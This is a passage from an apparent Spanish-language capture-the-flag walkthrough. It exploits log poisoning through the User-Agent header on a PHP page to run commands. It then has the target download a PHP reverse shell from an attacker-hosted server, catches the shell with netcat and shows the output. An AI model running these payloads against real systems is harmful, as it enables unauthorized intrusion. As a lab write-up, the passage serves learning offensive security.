 Por lo que vamos a probar a enviar un comando a ver si lo ejecuta:

```shell
curl -A "<?php system('id'); ?>" http://<IP>/problems.php
```

Si recargamos el `error.log` vemos que la ultima entrada es:

```
172.17.0.1 - - [16/Jan/2025:07:05:12 +1000] "GET /problems.php HTTP/1.1" 200 10863 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Por lo que se puede injectar comando, vamos hacernos una `reverse shell` aprovechando esto de la siguiente forma, nos vamos a descargar un archivo con una shell nuestra al directorio `uploads/` que descubrimos anteriormente:

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Una vez creado el archivo, tendremos que subirlo a la maquina y pasarlo a la carpeta `uploads/`:

```shell
python3 -m http.server
```

```shell
curl -A "<?php exec('curl http://<IP_ATTACKER>:8000/shell.php -o /var/www/html/uploads/shell.php'); ?>" http://<IP>/problems.php
```

Si recargamos el `error.log` vemos que en el servidor de `python3` tendremos la siguiente salida:

```
172.17.0.2 - - [15/Jan/2025 16:14:54] "GET /shell.php HTTP/1.1" 200 -
```

Y si nos vamos a la carpeta `uploads/` veremos que esta el archivo `shell.php` por lo que nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y nos vamos a la siguiente direccion:

```
URL = http://<IP>/uploads/shell.php
```

Si nos vamos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 59298
whoami
www-data
```
